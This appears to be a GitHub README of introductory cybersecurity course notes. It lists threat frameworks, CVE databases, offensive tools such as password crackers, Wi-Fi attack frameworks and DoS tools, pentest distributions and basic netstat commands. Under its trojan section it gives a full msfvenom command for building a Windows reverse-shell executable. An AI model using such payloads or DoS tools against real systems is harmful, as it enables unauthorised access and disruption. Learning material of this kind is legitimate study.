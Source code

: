 # Introduction to Cyber Security

"Introduction to Cyber Security" базови познания в сферата на киберсигурността. 

---------------------------------------------------------------

## Frameworks for Recording Threat Actions

- [ATT&CK Matrix for Enterprise](https://attack.mitre.org/) - MITRE ATT&CK® is a globally-accessible knowledge base of adversary tactics and techniques based on real-world observations. The ATT&CK knowledge base is used as a foundation for developing specific threat models and methodologies in the private sector, government, and cybersecurity product and service community.

---------------------------------------------------------------

## IDS / IPS (Intrusion Detection System / Intrusion Prevention System)

- [Snort](https://www.snort.org/) - Snort is an Open Source Intrusion Prevention System (IPS). Snort IPS uses a series of rules that help define malicious network activity, which is used to find packets that match against them and generate alerts for users. Snort can be deployed to stop these packets, as well. Snort has three primary uses: As a packet sniffer like tcpdump and as a packet logger, which is helpful for network traffic debugging and can be used as a full-blown network intrusion prevention system.
- [Live Cyber Threat Map](https://threatmap.checkpoint.com/) - a real-time map of the computer security attacks occurring at any given time.

---------------------------------------------------------------

## Vulnerabilities `CVE-YEAR OF DISCOVERY-ID`

- [CVE Org](https://www.cve.org/) - Identify, define, and catalog publicly disclosed cybersecurity vulnerabilities
- [ExploitDB](https://www.exploit-db.com/) - Search for Vulnerabilities
- [National Vulnerability Database](https://nvd.nist.gov/) - U.S. government repository of standards-based vulnerability management data represented using the Security Content Automation Protocol (SCAP). This data enables automation of vulnerability management, security measurement, and compliance. The NVD includes databases of security checklist references, security-related software flaws, product names, and impact metrics.
- [CVE Details](https://www.cvedetails.com/) - a complete CVE database enhanced with additional information, including advisories, exploits, tools, source code changes, etc.
- Searchsploit - kali-linux command util

---------------------------------------------------------------

## Hacking Tools 
- [Responder](https://github.com/SpiderLabs/Responder) - Responder is an open-source tool primarily used for NetBIOS and LLMNR poisoning attacks. NetBIOS (Network Basic Input/Output System) and LLMNR (Link-Local Multicast Name Resolution) facilitate communication between devices on a local network.
- [John the Ripper](https://github.com/openwall/john) - John the Ripper is a fast password cracker, currently available for many flavors of Unix, macOS, Windows, DOS, BeOS, and OpenVMS (the latter requires a contributed patch). Its primary purpose is to detect weak Unix passwords. Besides several crypt(3) password hash types most commonly found on various Unix flavors, supported out of the box are Kerberos/AFS and Windows LM hashes, as well as DES-based tripcodes, plus hundreds of additional hashes and ciphers in "-jumbo" versions.
- [Zero Days Marketplace](https://0day.today/) - Zero Day Vulnerabilities. Zero Day means that they are brand new, and there
is not a fix or patch for them.
- [The Social-Engineer Toolkit (SET)](https://github.com/trustedsec/social-engineer-toolkit) - The Social-Engineer Toolkit is an open-source penetration testing framework designed for social engineering. SET has several custom attack vectors that allow you to make a believable attack quickly. SET is a product of TrustedSec, LLC – an information security consulting firm located in Cleveland, Ohio.

---------------------------------------------------------------

## Brute Forcing Attacks

- [Hydra](https://github.com/vanhauser-thc/thc-hydra) - Hydra (or THC Hydra) is a parallelized network login cracker built in various operating systems like Kali Linux
- [Burp Intruder](https://portswigger.net/burp/pro) - Burp Intruder is a tool for automating customized attacks against web applications.
- [Medusa](https://github.com/jmk-foofus/medusa) - Medusa is a speedy, parallel, and modular login brute-forcer. The goal is to support as many services that allow remote authentication as possible.

---------------------------------------------------------------


## Frameworks to Perform Wi-Fi Attacks

- [Airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon) - This is a multi-use bash script for Linux systems to audit wireless networks.
- [WiFiPhisher](https://github.com/wifiphisher/wifiphisher) - Wifiphisher is a rogue Access Point framework for conducting red team engagements or Wi-Fi security testing. Using Wifiphisher, penetration testers can quickly achieve a man-in-the-middle position against wireless clients by performing targeted Wi-Fi association attacks.
- [WiFi Exploitation Framework](https://github.com/D3Ext/WEF) - This is an entirely offensive framework for auditing Wi-Fi networks with different types of attacks for WPA/WPA2, WPS, and WEP, automated handshake cracking, and much more.

---------------------------------------------------------------

## DoS Tools - Denial of Service (DOS)

- [Low Orbit Ion Cannon](https://github.com/NewEraCracker/LOIC) - Low Orbit Ion Cannon (LOIC) is an open-source network stress tool written in C# (TCP, UDP, HTTP GET FLOODS).
- [High Orbit Ion Cannon](https://sourceforge.net/projects/highorbitioncannon/) - HTTP GET / POST requests
- [hping3](https://www.kali.org/tools/hping3/) - hping3 is a network tool that sends custom ICMP/UDP/TCP packets and displays target replies like ping does with ICMP replies. It handles fragmentation and arbitrary packet body and size and can transfer files under supported protocols. Using hping3, you can test firewall rules, perform (spoofed) port scanning, test network performance using different protocols, do path MTU discovery, perform traceroute-like actions under different protocols, fingerprint remote operating systems, audit TCP/IP stacks, etc. hping3 is scriptable using the Tcl language.
- [Tors Hammer](https://github.com/Karlheinzniebuhr/torshammer) - As the name suggests, the tool can perform attacks inside the Tor network. By default, Tor's Hammer operates on level 7 of the OSI Model and attacks the whole TCP stack. The way it works is simple. The tool opens multiple dead connections and, thus, hangs the application since it cannot return results. However, instead of a crushing action like the literal Thor hammer, it is specialized for anonymous attacks. The tool is built in a way that uses anonymity as leverage to evade firewalls and security mitigations. Pen testers also use it for demo attacks on security structures. This tool has a downside. However, the primary network (Tor) is usually very slow. This speed limit automatically limits how effective these tools can be.

---------------------------------------------------------------

## Generate Trojan for Reverse Shell Callback

- [Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/msfvenom/) - Msfvenom enables you to generate custom payloads for specific targets. The tool was created by combining two previous Metasploit tools—msfencode and msfpayload. Msfvenom can help get past the security of a target protected by a firewall or an antivirus. `msfvenom –p windows/x64/shell/reverse_tcp LHOST=IP LPORT=PORT –f exe –o file.exe`

---------------------------------------------------------------

## Security Tools

- [OpenVPN](https://openvpn.net/) Virtual Private Network - Infrastructure that allows machines to connect in
a secure way
- [Tor Network](https://www.torproject.org/) This network is used for anonymity online
- [JWT Token](https://jwt.io/) JSON Web Token - Used for authorization in web apps. It relies on a secret to validate its signature. JWT token is instantiated upon a valid login
- [Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) - Applied algorithm to "obfuscate" a secret

---------------------------------------------------------------

## Penetration Testing Tools

- [Nessus](https://www.tenable.com/products/nessus)
- [Nmap](https://nmap.org/)
- [BurpSuite](https://portswigger.net/burp)
- [Searchsploit](https://www.exploit-db.com/searchsploit)

---------------------------------------------------------------

## Penetration Testing Operational Systems

- [Kali Linux](https://www.kali.org/)
- [Parrot OS](https://www.parrotsec.org/)
- [Black Arch](https://blackarch.org/)
- [CommandoVM](https://github.com/mandiant/commando-vm)

---------------------------------------------------------------

## Example of interesting ports:

- 22 / SSH
- 80 / HTTP
- 443 / HTTPS
- 389 / LDAP

---------------------------------------------------------------

## Example of exciting commands:

- How to Check What Ports are Opened on Your PC
  - Windows:
    - `netstat –an`
    - `netstat –antb`
  - Linux:
    - `ss –nltp`
    - `netstat –tulpn`


